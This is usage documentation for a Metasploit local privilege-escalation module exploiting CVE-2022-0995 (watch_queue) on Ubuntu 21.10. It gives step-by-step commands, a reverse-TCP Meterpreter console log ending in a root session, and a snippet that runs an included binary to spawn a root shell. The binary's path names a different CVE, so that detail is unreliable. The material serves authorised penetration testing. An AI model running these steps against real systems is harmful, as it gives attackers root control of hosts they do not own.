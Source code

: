 ## Vulnerable Application

This module exploits a vulnerability in the Linux Kernel's watch_queue event
notification system. It relies on a heap out-of-bounds write in kernel memory.
The exploit may fail on the first attempt so multiple attempts may be needed.
Note that the exploit can potentially cause a denial of service if multiple
failed attemps occur, however this is unlikely.

### Install

The vulnerability exists in linux kernel versions up to 5.17 rc8; this module only contains offsets for Ubuntu 21.10
kernel 5.13.0-37. More offsets may be added later.

Install Ubuntu 21.10
`apt-get install linux-image-5.13.0-37-generic`
Hold shift when you reboot and select the proper kernel version

## Verification Steps

1. Make an Ubuntu target.
1. Create a Meterpreter or shell payload and upload it to the Ubuntu target.
1. Set up a handler for the payload.
1. Launch the payload as a regular user on the Ubuntu target.
1. Do: `use exploit/linux/local/cve_2022_0995_watch_queue`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a new shell as the `root` user.

## Options

### COMPILE

[Auto|True|False] This selects the binary to use. `True` will cause the module to upload the source
code and perform compilation on target, `False` will cause the module to upload a precompiled binary.
`Auto` will cause the module to try compiling the exploit on the target but will fall back to the
precompiled option if a compiler cannot be found.

### DEBUG_SOURCE
[True|False] This selects whether or not the module should use source code with debug prints when
uploading and compiling on disk. If set to `True` the module will use source code with prints
that assist with troubleshooting failed exploits. If set to `False` the module will use source code
without these debug statements/prints. Note if it is not possible to compile the code on the target,
the precompiled binary will be used which has no debug print statements.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios

### Ubuntu 21.10 x64 With Linux 5.13.0.37-Generic

```
msf6 payload(linux/x64/meterpreter/reverse_tcp) >
[*] Started reverse TCP handler on 10.5.135.101:4567
[*] Sending stage (3020772 bytes) to 10.5.134.157
[*] Meterpreter session 1 opened (10.5.135.101:4567 -> 10.5.134.157:34614 ) at 2022-04-12 21:04:39 -0500

msf6 payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 1...
msf6 payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2022_0995_watch_queue
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > show options

Module options (exploit/linux/local/cve_2022_0995_watch_queue):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMPILE       Auto             yes       Compile on target (Accepted: Auto, True, False)
   DEBUG_SOURCE  false            no        Use source code with debug prints to help troubleshoot
   SESSION                        yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Ubuntu Linux 5.13.0-37


msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set session 1
session => 1
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[+] The target appears to be vulnerable.
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[*] Creating directory /tmp/.nILfP259
[*] /tmp/.nILfP259 created
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.nILfP259/.7BZngDv' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.nILfP259/.gJKqSJssjC /tmp/.nILfP259/.7BZngDv
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 10.5.134.157
[+] Deleted /tmp/.nILfP259/.gJKqSJssjC
[+] Deleted /tmp/.nILfP259
[*] Meterpreter session 2 opened (10.5.135.101:4444 -> 10.5.134.157:50382 ) at 2022-04-12 21:05:25 -0500
[*]

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Notes

### Included Binaries
The binary used by this exploit `data/exploits/CVE-2022-0995/cve_2021_3493.x64.elf` can be used separately from
Metasploit. The binary takes a single argument which is the payload or executable you wish to launch as `root`.

The following snippet shows an example of how one might run this binary with the `/bin/bash` executable to get
a new Bash shell as the `root` user.

```
msfuser@msfuser-virtual-machine:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@msfuser-virtual-machine:~$ ./cve_2021_3493.x64.elf /bin/bash
root@msfuser-virtual-machine:~$
```
